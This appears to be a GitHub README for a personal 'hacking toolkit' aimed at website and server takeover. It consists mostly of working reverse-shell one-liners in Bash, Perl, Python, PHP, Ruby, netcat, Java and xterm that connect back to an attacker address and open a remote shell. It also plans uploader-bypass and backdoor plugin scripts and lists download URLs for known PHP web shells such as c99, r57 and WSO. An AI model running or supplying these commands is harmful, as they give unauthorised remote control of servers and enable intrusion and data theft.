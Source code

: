 # MyHackingToolkit
A set of shells to expedite website/server takeover, I will build this repo for my own use, if you believe you can use it and want to enhance, please create a pull-request or suggest enhancements to current scripts

## Reverse Shell
- [PentestMonkey.net](http://pentestmonkey.net/)
### Bash
Some versions of bash [can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### PERL
Here’s a shorter, feature-free version of the perl-reverse-shell:

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
There’s also an alternative PERL revere shell [here](http://www.plenz.com/reverseshell).


### Python
This was tested under Linux / Python 2.7:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```bash
nc -e /bin/sh 10.0.0.1 1234
```
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

```xterm
xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

```xterm
Xnest :1
```
You’ll need to authorise the target to connect to you (command also run on your host):

[Bernardo’s Reverse Shell One-Liners](http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)

## PHP
- a small script with wget command for file uploaders with different extensions .jpg.php .jpg;.php .phtml .php3 .php4 .php5
- a small script to download from github repo the main shells required for takeover testing
- symlinking scripts
- mysql pure shell
- vbulletin plugin or style
- wordpress theme
- wordpress plugin
- backconnect

```json
      ['http://www.c99shellphp.com/shell/angel.txt',
			'http://www.c99shellphp.com/shell/r57.txt',
			'http://www.c99shellphp.com/shell/c100.txt',
			'http://www.c99shellphp.com/shell/kacak.txt',
			'http://www.c99shellphp.com/shell/symlink.txt',
			'http://www.c99shellphp.com/shell/h4cker.tr.txt',
			'http://www.c99shellphp.com/shell/bv7binary.txt',
			'http://www.c99shellphp.com/shell/webadmin.txt',
			'http://www.c99shellphp.com/shell/gazashell.txt',
			'http://www.c99shellphp.com/shell/locus7shell.txt',
			'http://www.c99shellphp.com/shell/ernebypass.txt',
			'http://www.c99shellphp.com/shell/g6shell.txt',
			'http://www.c99shellphp.com/shell/uploadshell_hima.txt',
			'http://www.c99shellphp.com/shell/wsoshell.txt',
			'http://www.c99shellphp.com/shell/commandshell.txt']
```

## Perl
- cgi script
- cgi backconnect

# python shell

## .htaccess CheatSheet
